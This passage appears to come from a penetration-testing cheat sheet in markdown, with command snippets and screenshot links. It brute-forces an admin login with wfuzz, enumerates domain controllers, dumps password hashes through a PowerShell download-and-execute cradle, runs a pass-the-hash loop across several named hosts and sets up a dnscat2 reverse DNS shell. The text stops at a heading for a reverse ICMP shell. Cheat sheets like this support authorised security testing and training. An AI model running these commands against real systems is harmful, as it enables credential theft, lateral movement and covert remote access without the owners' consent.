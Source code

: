 ```wfuzz --hc 404 -c -z list,admin -z file,/root/Documents/SecLists/Passwords/korelogic-password.txt -d "user=FUZZ&password=FUZ2Z" http://192.168.30.161/admin/index.php```
  ![image](https://user-images.githubusercontent.com/7115563/34455690-9e648d78-ed84-11e7-9a84-9b335530a31e.png)
  
  <b> View Domain Controlers </b>
  
  <pre>nltest /dclist:<domain> </pre>
  
  ![image](https://user-images.githubusercontent.com/7115563/34455698-d1504074-ed84-11e7-85ad-c4bb196c9d44.png)
  

  
<b> Get Hashes </b>

<pre>IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/samratashok/nishang/master/Gather/Get-PassHashes.ps1');Get-PassHashes</pre>

  ![image](https://user-images.githubusercontent.com/7115563/34455769-66cb31bc-ed86-11e7-846e-090647d8e32f.png)
  
  
<b> Check Pass The Hash with multiple servers</b>

<pre>$hosts = @("SVDC1.LAZULI.CORP","SVFILES.LAZULI.CORP","SVHOST1.LAZULI.CORP","SVHOST2.LAZULI.CORP","SVFILES2.LAZULI.CORP")

foreach ($h in $hosts){ Invoke-WMIExec -Target $h -Username Administrator -Hash 78560bbcf70110fbfb5add17b5dfd762 -Command "hostname" -Verbose }

</pre>

![image](https://user-images.githubusercontent.com/7115563/34455798-0bdc77ec-ed87-11e7-9504-6b9ec6fc2a8d.png)

References: https://www.hacklikeapornstar.com/
  


<a name="revshells"></a><h2> Reverse Shells </h2>

<a name="dns"></a><h3> Reverse DNS Shell with dnscat powershell </h3>

<b> Server </b>

<pre>ruby dnscat2.rb -e open --no-cache tunnel.domain.com</pre>


<b> Client </b>

<pre>IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/lukebaggett/dnscat2-powershell/master/dnscat2.ps1'); Start-Dnscat2 -Domain tunnel.domain.com -DNSServer 8.8.4.4 </pre>


![dns](https://user-images.githubusercontent.com/7115563/35040679-5a155bfa-fb82-11e7-98ec-ba015e3ad69c.png)

Reference: https://github.com/lukebaggett/dnscat2-powershell


<a name="icmp"></a><h3> Reverse ICMP shell </h3>

<b> Server </b>
```